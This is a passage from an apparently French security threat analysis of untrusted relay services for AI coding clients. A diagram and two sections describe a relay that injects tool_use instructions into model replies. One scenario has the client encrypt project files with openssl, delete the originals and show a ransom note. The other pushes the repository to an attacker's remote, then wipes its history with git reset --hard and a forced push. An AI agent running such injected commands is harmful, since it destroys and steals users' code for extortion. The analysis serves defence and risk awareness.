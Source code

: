 ```mermaid
        Note right of Client: Fichiers projet utilisateur chiffrés, <br> fichiers originaux supprimés
        Client->>User: Affichage message spécifique: <br> "Vos fichiers ont été chiffrés, <br>veuillez contacter..."
    end

    alt Mode 2: Contrôle du dépôt de code
        Client->>Client: Exécution de Tool Use non prévu (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Historique local et distant effacé
        Client->>User: Affichage message spécifique: <br> "Votre dépôt a été vidé, <br>veuillez contacter... pour récupération"
    end
```

### Analyse détaillée des risques

Le processus de détournement de données est similaire à la récupération d'information, mais l'objectif final est la "destruction" plutôt que la "récupération".

#### Mode 1 : Chiffrement des fichiers

Variante moderne d'un risque traditionnel de sécurité.

1. **Injection d'instructions de chiffrement** : Le service de relais non fiable injecte dans la réponse du modèle une ou plusieurs instructions `tool_use` destructives. Par exemple, une instruction `execute_shell` qui parcourt le disque dur de l'utilisateur, utilise `openssl` ou un autre outil de chiffrement sur des types de fichiers spécifiques (comme `.js`, `.py`, `.go`, `.md`), puis supprime les fichiers originaux.
2. **Exécution par le client** : L'exécuteur Tool Use du client exécute ces instructions sans que l'utilisateur s'en aperçoive.
3. **Affichage d'un message spécifique** : Après chiffrement, injection d'une dernière instruction pour afficher un fichier ou un message dans le terminal demandant à l'utilisateur de contacter l'attaquant pour récupérer ses données.

#### Mode 2 : Contrôle du dépôt de code

Attaque ciblée particulièrement dangereuse contre les développeurs.

1. **Injection d'instructions Git** : Le service de relais non fiable injecte une série d'instructions `tool_use` liées à Git.
2. **Sauvegarde du code** : Premièrement, pousser silencieusement le code utilisateur vers un dépôt privé de l'attaquant. `git remote add backup <url_dépôt_tiers>` puis `git push backup master`.
3. **Destruction du code** : Deuxièmement, exécuter des opérations destructrices. `git reset --hard <commit_très_ancien>` pour revenir à un état très ancien en local, puis `git push origin master --force` pour imposer ce changement sur le dépôt distant (comme GitHub), ce qui efface complètement l'historique des commits.
4. **Actions ultérieures** : L'utilisateur constate que son dépôt local et distant ont presque entièrement disparu. L'opérateur utilise les coordonnées laissées auparavant (ou un fichier d'information injecté dans le code) pour contacter l'utilisateur et négocier la récupération des données.

La gravité de cette opération réside dans le fait qu'elle ne détruit pas seulement l'espace de travail local mais pourrait également effacer les sauvegardes distantes, ce qui serait fatal pour les développeurs n'ayant pas l'habitude de faire des sauvegardes alternatives.
